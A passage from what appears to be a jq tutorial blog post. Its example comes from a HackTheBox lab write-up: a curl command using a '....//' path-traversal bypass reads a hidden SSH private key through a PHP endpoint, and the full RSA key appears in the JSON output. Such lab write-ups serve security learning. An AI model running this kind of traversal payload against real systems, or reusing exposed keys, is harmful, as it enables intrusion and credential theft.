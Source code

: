           "coals": [
            1,
            1,
            1,
            1
          ],
          "date": "2017-02-02T12:13:51",
          "name": "Nina Fitzgerald"
    

The nested nature of json data gives it the potential to get very messy. You
can certainly use something like python and `import json` to work with json
data, but there are times you just need to manipulate the data without writing
a script. `jq` to the rescue.

## Example from Waldo

### Background

In [Waldo from Hackthebox](/2018/12/15/htb-waldo.html), I had to abuse a path
vulnerability in a php app to read outside of webroot and fetch a private ssh
key. The data that comes back is in json. To get the private key in Waldo, I
can use curl (`-s` to suppress output, `-X POST` to post, `-d` for the data,
and the url of `fileRead.php`):

    
    
    root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php
    {"file":"-----BEGIN RSA PRIVATE KEY-----\nMIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl\nmR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f\n87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS\ndGCc\/gNpW\/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN\no8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8\/6pceowqs9ujRkNzH9T1lJq4Fx1V\nvi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl\/wdmuPEW6kU\nvmzhRU3gcjuzwBET0TNejbL\/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR\/6\npKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5\n8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q\n1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox\/05qoOBL4kQxUM7\nVxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS\ndVa3yLECgYEA7jk51MvUGSIFF6GkXsNb\/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO\nv0og0X\/iROXAcp6Z9WGpIc6FhVgJd\/4bNlTR+A\/lWQwFt1b6l03xdsyaIyIWi9xr\nxsb2sLNWP56A\/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY\nqFfdAWrvVZjp26Yf\/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI\nyzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1\n\/pAcw\/+\/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw\/IMnLa3drm3CIAa32iU\nLRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ\/\nlnN2n1WyTIyEuGA\/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp\nw7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9\n1HLmBkDTjjj\/xAJAZuiOF4Rs\/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT\nrj1BhUCzZCUgQABtpC6vYj\/HLLlzpiC05AIEhDdvToPK\/0WuY64fds0VccAYmMDr\nX\/PlAoGAS6UhbCm5TWZhtL\/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2\nDvVny8gKbM\/OenwHnTlwRTEj5qdeAM40oj\/mwCDc6kpV1lJXrW2R5mCH9zgbNFla\nW0iKCBUAm5xZgU\/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=\n-----END RSA PRIVATE KEY-----\n"}
    

### jq Clean Up

So, what comes back is json. It’s an object, with one string/value pair.

If you ever just want to pretty print some json data, you can simply pipe it
into `jq .`. That’s the simplest form for `jq`, where it’s literally just
printing back the entire object. But looks what comes out:
